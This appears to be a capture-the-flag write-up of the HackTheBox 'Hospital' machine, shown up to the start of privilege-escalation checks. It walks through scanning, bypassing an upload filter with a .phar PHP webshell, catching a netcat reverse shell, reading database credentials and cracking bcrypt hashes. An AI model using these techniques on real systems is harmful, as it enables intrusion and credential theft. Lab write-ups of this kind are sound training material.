








## Initial Enumeration

As initial point we are given the IP address(10.10.11.241) and knowing it's a Windows based server. As usual I will fire up Nmap and check for possible open services, and starting from first 65K TCP ports:

```
PORT      STATE SERVICE           VERSION
22/tcp    open  ssh               OpenSSH 9.0p1 Ubuntu 1ubuntu8.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 e1:4b:4b:3a:6d:18:66:69:39:f7:aa:74:b3:16:0a:aa (ECDSA)
|_  256 96:c1:dc:d8:97:20:95:e7:01:5f:20:a2:43:61:cb:ca (ED25519)
53/tcp    open  domain            Simple DNS Plus
88/tcp    open  kerberos-sec      Microsoft Windows Kerberos (server time: 2023-11-23 18:47:40Z)
135/tcp   open  msrpc             Microsoft Windows RPC
139/tcp   open  netbios-ssn       Microsoft Windows netbios-ssn
389/tcp   open  ldap              Microsoft Windows Active Directory LDAP (Domain: hospital.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC
| Subject Alternative Name: DNS:DC, DNS:DC.hospital.htb
| Not valid before: 2023-09-06T10:49:03
|_Not valid after:  2028-09-06T10:49:03
443/tcp   open  ssl/http          Apache httpd 2.4.56 ((Win64) OpenSSL/1.1.1t PHP/8.0.28)
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
| tls-alpn:
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
|_http-title: Hospital Webmail :: Welcome to Hospital Webmail
|_http-server-header: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.0.28
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ldapssl?
| ssl-cert: Subject: commonName=DC
| Subject Alternative Name: DNS:DC, DNS:DC.hospital.htb
| Not valid before: 2023-09-06T10:49:03
|_Not valid after:  2028-09-06T10:49:03
1801/tcp  open  msmq?
2103/tcp  open  msrpc             Microsoft Windows RPC
2105/tcp  open  msrpc             Microsoft Windows RPC
2107/tcp  open  msrpc             Microsoft Windows RPC
2179/tcp  open  vmrdp?
3268/tcp  open  ldap              Microsoft Windows Active Directory LDAP (Domain: hospital.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC
| Subject Alternative Name: DNS:DC, DNS:DC.hospital.htb
| Not valid before: 2023-09-06T10:49:03
|_Not valid after:  2028-09-06T10:49:03
3269/tcp  open  globalcatLDAPssl?
| ssl-cert: Subject: commonName=DC
| Subject Alternative Name: DNS:DC, DNS:DC.hospital.htb
| Not valid before: 2023-09-06T10:49:03
|_Not valid after:  2028-09-06T10:49:03
3389/tcp  open  ms-wbt-server     Microsoft Terminal Services
| rdp-ntlm-info:
|   Target_Name: HOSPITAL
|   NetBIOS_Domain_Name: HOSPITAL
|   NetBIOS_Computer_Name: DC
|   DNS_Domain_Name: hospital.htb
|   DNS_Computer_Name: DC.hospital.htb
|   DNS_Tree_Name: hospital.htb
|   Product_Version: 10.0.17763
|_  System_Time: 2023-11-23T18:48:36+00:00
| ssl-cert: Subject: commonName=DC.hospital.htb
| Not valid before: 2023-09-05T18:39:34
|_Not valid after:  2024-03-06T18:39:34
5985/tcp  open  http              Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
6404/tcp  open  msrpc             Microsoft Windows RPC
6406/tcp  open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
6407/tcp  open  msrpc             Microsoft Windows RPC
6409/tcp  open  msrpc             Microsoft Windows RPC
6612/tcp  open  msrpc             Microsoft Windows RPC
6622/tcp  open  msrpc             Microsoft Windows RPC
8080/tcp  open  http              Apache httpd 2.4.55 ((Ubuntu))
|_http-server-header: Apache/2.4.55 (Ubuntu)
|_http-open-proxy: Proxy might be redirecting requests
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
| http-title: Login
|_Requested resource was login.php
9389/tcp  open  mc-nmf            .NET Message Framing
12936/tcp open  msrpc             Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
Network Distance: 2 hops
Service Info: Host: DC; OSs: Linux, Windows; CPE: cpe:/o:linux:linux_kernel, cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 7h00m00s, deviation: 0s, median: 7h00m00s
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled and required
| smb2-time:
|   date: 2023-11-23T18:48:37
|_  start_date: N/A
```

A lot of open services indeed(we know Kerberos och LDAP/s is in place which means we are in front of a DC). But what about the UDP services as well?

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# nmap -sU -top-ports 1000 10.10.11.241
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-11-23 12:44 CET
Nmap scan report for 10.10.11.241
Host is up (0.043s latency).
Not shown: 997 open|filtered udp ports (no-response)
PORT    STATE SERVICE
88/udp  open  kerberos-sec
123/udp open  ntp
389/udp open  ldap

Nmap done: 1 IP address (1 host up) scanned in 17.82 seconds
```

Ok not much then we can start to drill down all we got so far!

* * *

## DNS

Easiest is to start from the DNS service running on the standard TCP/53 port and check if we can get any indication about possible DNS records.

Guessing that the Domain name would be possibly "hospital.htb" we can see only traces about the DC:

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# dig any hospital.htb @10.10.11.241

; <<>> DiG 9.19.17-1-Debian <<>> any hospital.htb @10.10.11.241
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 14996
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 6, AUTHORITY: 0, ADDITIONAL: 4

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4000
;; QUESTION SECTION:
;hospital.htb.                  IN      ANY

;; ANSWER SECTION:
hospital.htb.           600     IN      A       10.10.11.241
hospital.htb.           600     IN      A       192.168.5.1
hospital.htb.           3600    IN      NS      dc.hospital.htb.
hospital.htb.           3600    IN      SOA     dc.hospital.htb. hostmaster.hospital.htb. 686 900 600 86400 3600
hospital.htb.           600     IN      AAAA    dead:beef::db
hospital.htb.           600     IN      AAAA    dead:beef::9e0c:39b8:37c7:2ba4

;; ADDITIONAL SECTION:
dc.hospital.htb.        1200    IN      A       10.10.11.241
dc.hospital.htb.        1200    IN      AAAA    dead:beef::9e0c:39b8:37c7:2ba4
dc.hospital.htb.        1200    IN      AAAA    dead:beef::db

;; Query time: 129 msec
;; SERVER: 10.10.11.241#53(10.10.11.241) (TCP)
;; WHEN: Thu Nov 23 12:48:44 CET 2023
;; MSG SIZE  rcvd: 265
```

What about a Domainzone transfer? It would unveil the presence of other VHOSTS or subdomains.

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# dig axfr hospital.htb @10.10.11.241

; <<>> DiG 9.19.17-1-Debian <<>> axfr hospital.htb @10.10.11.241
;; global options: +cmd
; Transfer failed.
```

The zone transfer is prohibited which means we can we move forward for now.

* * *

## SMB

The next interesting service i see here is the Samba service running on the default port TCP/445 and the relevant Netbios services that come along on ports 135/139 TCP.

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# enum4linux-ng -A hospital.htb
/usr/local/bin/enum4linux-ng:4: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  __import__('pkg_resources').run_script('enum4linux-ng==1.3.1', 'enum4linux-ng')
ENUM4LINUX - next generation (v1.3.1)

 ==========================
|    Target Information    |
 ==========================                                                                                                                                                                  
[*] Target ........... hospital.htb                                                                                                                                                          
[*] Username ......... ''
[*] Random Username .. 'uwmtbxzi'
[*] Password ......... ''
[*] Timeout .......... 5 second(s)

 =====================================
|    Listener Scan on hospital.htb    |
 =====================================
[*] Checking LDAP
[+] LDAP is accessible on 389/tcp
[*] Checking LDAPS
[+] LDAPS is accessible on 636/tcp
[*] Checking SMB
[+] SMB is accessible on 445/tcp
[*] Checking SMB over NetBIOS
[+] SMB over NetBIOS is accessible on 139/tcp

 ====================================================
|    Domain Information via LDAP for hospital.htb    |
 ====================================================
[*] Trying LDAP
[+] Appears to be root/parent DC
[+] Long domain name is: hospital.htb

 ===========================================================
|    NetBIOS Names and Workgroup/Domain for hospital.htb    |
 ===========================================================
[-] Could not get NetBIOS names information via 'nmblookup': timed out

 =========================================
|    SMB Dialect Check on hospital.htb    |
 =========================================
[*] Trying on 445/tcp
[+] Supported dialects and settings:
Supported dialects:                                                                                                                                                                          
  SMB 1.0: false                                                                                                                                                                             
  SMB 2.02: true                                                                                                                                                                             
  SMB 2.1: true                                                                                                                                                                              
  SMB 3.0: true                                                                                                                                                                              
  SMB 3.1.1: true                                                                                                                                                                            
Preferred dialect: SMB 3.0                                                                                                                                                                   
SMB1 only: false                                                                                                                                                                             
SMB signing required: true                                                                                                                                                                   

 ===========================================================
|    Domain Information via SMB session for hospital.htb    |
 ===========================================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[+] Found domain information via SMB
NetBIOS computer name: DC                                                                                                                                                                    
NetBIOS domain name: HOSPITAL                                                                                                                                                                
DNS domain: hospital.htb                                                                                                                                                                     
FQDN: DC.hospital.htb                                                                                                                                                                        
Derived membership: domain member                                                                                                                                                            
Derived domain: HOSPITAL                                                                                                                                                                     

 =========================================
|    RPC Session Check on hospital.htb    |
 =========================================
[*] Check for null session
[-] Could not establish null session: STATUS_ACCESS_DENIED
[*] Check for random user
[-] Could not establish random user session: STATUS_LOGON_FAILURE
[-] Sessions failed, neither null nor user sessions were possible

 ===============================================
|    OS Information via RPC for hospital.htb    |
 ===============================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[+] Found OS information via SMB
[*] Enumerating via 'srvinfo'
[-] Skipping 'srvinfo' run, not possible with provided credentials
[+] After merging OS information we have the following result:
OS: Windows 10, Windows Server 2019, Windows Server 2016                                                                                                                                     
OS version: '10.0'                                                                                                                                                                           
OS release: '1809'                                                                                                                                                                           
OS build: '17763'                                                                                                                                                                            
Native OS: not supported                                                                                                                                                                     
Native LAN manager: not supported                                                                                                                                                            
Platform id: null                                                                                                                                                                            
Server type: null                                                                                                                                                                            
Server type string: null                                                                                                                                                                     

[!] Aborting remainder of tests since sessions failed, rerun with valid credentials

Completed after 8.24 seconds
```

As we can see the machine is indeed a DC with Windows server build 17763(Server 2019) and we can appure that no Samba shares are surfable as anonymous user.

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# smbclient -L //hospital.htb
Password for [WORKGROUP\root]:
session setup failed: NT_STATUS_ACCESS_DENIED
```

So far nothing is coming out without a proper user credentials, we can move forward so far.

* * *

## HTTP/S

Now we found out that the server is hosting 2 different websites, one on standard HTTPS service running on the TCP/443 and the other one on the non-standard port TCP/8080.

To be specific we can find a Roundcube webmail hosted on the HTTPS on port TCP/443:  


And we can find some kind of custom login portal on the HTTP service on the TCP/8080:



Now looking around for hints there is a ZeroDay exploit available for roundcube that we could test:

```
https://cybersecuritynews.com/hackers-exploit-roundcube-zero-day/
```

Before testing out those I will check for possible hidden web folders in the Custom login:

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# dirsearch -u "http://hospital.htb:8080/"                                                                                                                                                                     

  _|. _ _  _  _  _ _|_    v0.4.3.post1                                                                                                                                                                            
 (_||| _) (/_(_|| (_| )                                                                                                                                                                                           
                                                                                                                                                                                                                  
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/aleksandar/Downloads/reports/http_hospital.htb_8080/__23-11-23_13-42-54.txt

Target: http://hospital.htb:8080/

[13:42:54] Starting:                                                                                                                                                                                              
[13:42:55] 301 -  316B  - /js  ->  http://hospital.htb:8080/js/             
[13:42:58] 403 -  279B  - /.ht_wsr.txt                                      
[13:42:58] 403 -  279B  - /.htaccess.bak1                                   
[13:42:58] 403 -  279B  - /.htaccess.orig
[13:42:58] 403 -  279B  - /.htaccess.sample                                 
[13:42:58] 403 -  279B  - /.htaccess_orig                                   
[13:42:58] 403 -  279B  - /.htaccess.save
[13:42:58] 403 -  279B  - /.htaccess_extra
[13:42:58] 403 -  279B  - /.htaccessBAK                                     
[13:42:58] 403 -  279B  - /.htaccess_sc
[13:42:58] 403 -  279B  - /.htaccessOLD2
[13:42:58] 403 -  279B  - /.htaccessOLD
[13:42:58] 403 -  279B  - /.html                                            
[13:42:58] 403 -  279B  - /.htm
[13:42:58] 403 -  279B  - /.htpasswds                                       
[13:42:58] 403 -  279B  - /.htpasswd_test
[13:42:58] 403 -  279B  - /.httr-oauth                                      
[13:42:59] 403 -  279B  - /.php                                             
[13:43:13] 200 -    0B  - /config.php                                       
[13:43:14] 301 -  317B  - /css  ->  http://hospital.htb:8080/css/           
[13:43:18] 301 -  319B  - /fonts  ->  http://hospital.htb:8080/fonts/       
[13:43:21] 301 -  320B  - /images  ->  http://hospital.htb:8080/images/     
[13:43:21] 403 -  279B  - /images/
[13:43:22] 403 -  279B  - /js/                                              
[13:43:24] 200 -    2KB - /login.php                                        
[13:43:33] 200 -    2KB - /register.php                                     
[13:43:35] 403 -  279B  - /server-status/                                   
[13:43:35] 403 -  279B  - /server-status                                    
[13:43:41] 200 -    0B  - /upload.php                                       
[13:43:41] 301 -  321B  - /uploads  ->  http://hospital.htb:8080/uploads/   
[13:43:41] 403 -  279B  - /uploads/                                         
[13:43:42] 403 -  279B  - /vendor/
```

Otherwise we could check the portal running on the service 8080 and start by creating a new users for ourself and immediately we can see that we can either create a new user or reset a existing with a password(tried with admin but didn't worked quite right..), and withing a second we are inlogged!

On a first login we can see a upload page:


I will start by testing to upload a test text file:

```
POST /upload.php HTTP/1.1
Host: hospital.htb:8080
Content-Length: 219
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://hospital.htb:8080
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryGvbhQNPflj9XaB9Y
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://hospital.htb:8080/index.php
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=e33juhamvu48fcfgpif262f434
Connection: close

------WebKitFormBoundaryGvbhQNPflj9XaB9Y
Content-Disposition: form-data; name="image"; filename="test.txt"
Content-Type: text/plain

This is my informations.

Good bye


------WebKitFormBoundaryGvbhQNPflj9XaB9Y--
```

And we can see that the file get's uploaded into /uploads/filename.extension:



What if we try to upload a php webshell instead?


Ok then I guess we have to bypass that file upload function, we know so far that txt worked so now we need to get a way in!

So here trying out manually I found out that the only php extension that is allowed to be uploaded and works as intended(interopreted as php) is the " .phar ":



But now trying many other webshell failed in not executing any command so here I finally used this one!

```
https://github.com/WhiteWinterWolf/wwwolf-php-webshell/blob/master/webshell.php
```

And we can see that comamnds get's executed!

```
Fetch:	host: 
10.10.16.2
 port: 
80
 path: 
CWD:	
/var/www/html/uploads
 Upload: No file chosen
Cmd:	
whoami
Clear cmd
whoami
www-data
```

Now we need to elevate this to a proper NC connection!



And now we have a shell baby!

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# nc -lvnp 5555                                                                                                                                                                                                 
listening on [any] 5555 ...
connect to [10.10.16.2] from (UNKNOWN) [10.10.11.241] 6572
bash: cannot set terminal process group (912): Inappropriate ioctl for device
bash: no job control in this shell
www-data@webserver:/var/www/html/uploads$ script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
www-data@webserver:/var/www/html/uploads$
```

Now that we have a foothold I think we need to find some kind of credentials in order to login into windows as it is now this is a Linux machine which might mean we are into a Docker environment.

Immediately we can find DB credentials in the config.php file:

```
www-data@webserver:/var/www/html$ cat config.php
cat config.php
<?php
/* Database credentials. Assuming you are running MySQL
server with default setting (user 'root' with no password) */
define('DB_SERVER', 'localhost');
define('DB_USERNAME', 'root');
define('DB_PASSWORD', 'my$qls3rv1c3!');
define('DB_NAME', 'hospital');
 
/* Attempt to connect to MySQL database */
$link = mysqli_connect(DB_SERVER, DB_USERNAME, DB_PASSWORD, DB_NAME);
 
// Check connection
if($link === false){
    die("ERROR: Could not connect. " . mysqli_connect_error());
}
?>
www-data@webserver:/var/www/html$
```

Next, checking the register.php we can see that the password get's hashed so i wonder if we have to use the DB credentials and maybe dump something there?

```
// Check input errors before inserting in database
    if(empty($username_err) && empty($password_err) && empty($confirm_password_err)){
        
        // Prepare an insert statement
        $sql = "INSERT INTO users (username, password) VALUES (?, ?)";
         
        if($stmt = mysqli_prepare($link, $sql)){
            // Bind variables to the prepared statement as parameters
            mysqli_stmt_bind_param($stmt, "ss", $param_username, $param_password);
            
            // Set parameters
            $param_username = $username;
            $param_password = password_hash($password, PASSWORD_DEFAULT); // Creates a password hash
            
            // Attempt to execute the prepared statement
            if(mysqli_stmt_execute($stmt)){
                // Redirect to login page
                header("location: login.php");
            } else{
                echo "Oops! Something went wrong. Please try again later.";
            }

            // Close statement
            mysqli_stmt_close($stmt);
        }
    }
```

Checking under home we can se the local user "DRWilliams" where we have no access so i will try to check the content of the local DB and hunt for Hashes, next If not usefull I will upload linpeas as well and get as much as possible!

```
www-data@webserver:/home$ mysql -u root -p
mysql -u root -p
Enter password: my$qls3rv1c3!

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 45
Server version: 10.11.2-MariaDB-1 Ubuntu 23.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
show databases;
+--------------------+
| Database           |
+--------------------+
| hospital           |
| information_schema |
| mysql              |
| performance_schema |
| sys                |
+--------------------+
5 rows in set (0.001 sec)

MariaDB [(none)]> use hospital;
use hospital;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [hospital]> show tables;
show tables;
+--------------------+
| Tables_in_hospital |
+--------------------+
| users              |
+--------------------+
1 row in set (0.000 sec)
```

Nice the hospital is hiding a table user, but what about possible hashes?

```
MariaDB [hospital]> select * from users;
select * from users;
+----+----------+--------------------------------------------------------------+---------------------+
| id | username | password                                                     | created_at          |
+----+----------+--------------------------------------------------------------+---------------------+
|  1 | admin    | $2y$10$caGIEbf9DBF7ddlByqCkrexkt0cPseJJ5FiVO1cnhG.3NLrxcjMh2 | 2023-09-21 14:46:04 |
|  2 | patient  | $2y$10$a.lNstD7JdiNYxEepKf1/OZ5EM5wngYrf.m5RxXCgSud7MVU6/tgO | 2023-09-21 15:35:11 |
|  3 | test     | $2y$10$nSeZda80DQb4B5ngtg/C4uMrsXupg0CHKX8kXZGLzkvBLIhY1KQ/K | 2023-11-22 04:54:49 |
|  4 | razack   | $2y$10$Sr5ZPKKi3Q/H/m7/TLJo7OR8C7Jjy7nt7mkoEYK9TAIAgSXiPCjAW | 2023-11-22 19:09:16 |
|  5 | yovecio  | $2y$10$6uICjfKUmQLGi9CRP0wy1.5znGUyQRYyGkLhD8FiPCwdecA7P.MZa | 2023-11-23 19:27:17 |
+----+----------+--------------------------------------------------------------+---------------------+
5 rows in set (0.000 sec)

MariaDB [hospital]>
```

Now here the first 3 seems interesting the last 2 are most likely other users leftovers... Now judging the Hashformat I guess this is some kind of Bcrypt:

```
3200 	bcrypt $2*$, Blowfish (Unix) 	$2a$05$LhayLxezLhK1LhWvKxCyLOj0j1u.Kj0jZ0pEmm134uzrQlFvQJLF6
```

And we found out admins password:

```
$2y$10$caGIEbf9DBF7ddlByqCkrexkt0cPseJJ5FiVO1cnhG.3NLrxcjMh2:123456
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Hash.Target......: $2y$10$caGIEbf9DBF7ddlByqCkrexkt0cPseJJ5FiVO1cnhG.3...xcjMh2
Time.Started.....: Thu Nov 23 14:50:58 2023 (1 sec)
Time.Estimated...: Thu Nov 23 14:50:59 2023 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:      197 H/s (5.35ms) @ Accel:12 Loops:8 Thr:1 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 144/14344385 (0.00%)
Rejected.........: 0/144 (0.00%)
Restore.Point....: 0/14344385 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:1016-1024
Candidate.Engine.: Device Generator
Candidates.#1....: 123456 -> sandra
```

I will do same for Patient's credentials:

```
$2y$10$a.lNstD7JdiNYxEepKf1/OZ5EM5wngYrf.m5RxXCgSud7MVU6/tgO:patient
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Hash.Target......: $2y$10$a.lNstD7JdiNYxEepKf1/OZ5EM5wngYrf.m5RxXCgSud...U6/tgO
Time.Started.....: Thu Nov 23 14:51:39 2023 (11 mins, 11 secs)
Time.Estimated...: Thu Nov 23 15:02:50 2023 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:       80 H/s (32.06ms) @ Accel:12 Loops:16 Thr:1 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 53424/14344385 (0.37%)
Rejected.........: 0/53424 (0.00%)
Restore.Point....: 53280/14344385 (0.37%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:1008-1024
Candidate.Engine.: Device Generator
Candidates.#1....: shaquana -> paolos
```

In the meantime I will upload Linpeas.sh and check for other missing bits here and there..

```
══════════════════════════════╣ System Information ╠══════════════════════════════                                                                                                                                
                              ╚════════════════════╝                                                                                                                                                              
╔══════════╣ Operative system
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#kernel-exploits                                                                                                                                
Linux version 5.19.0-35-generic (buildd@lcy02-amd64-014) (x86_64-linux-gnu-gcc-12 (Ubuntu 12.2.0-3ubuntu1) 12.2.0, GNU ld (GNU Binutils for Ubuntu) 2.39) #36-Ubuntu SMP PREEMPT_DYNAMIC Fri Feb 3 18:36:56 UTC 2023
Distributor ID: Ubuntu
Description:    Ubuntu 23.04
Release:        23.04
Codename:       lunar

╔══════════╣ Sudo version
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-version                                                                                                                                   
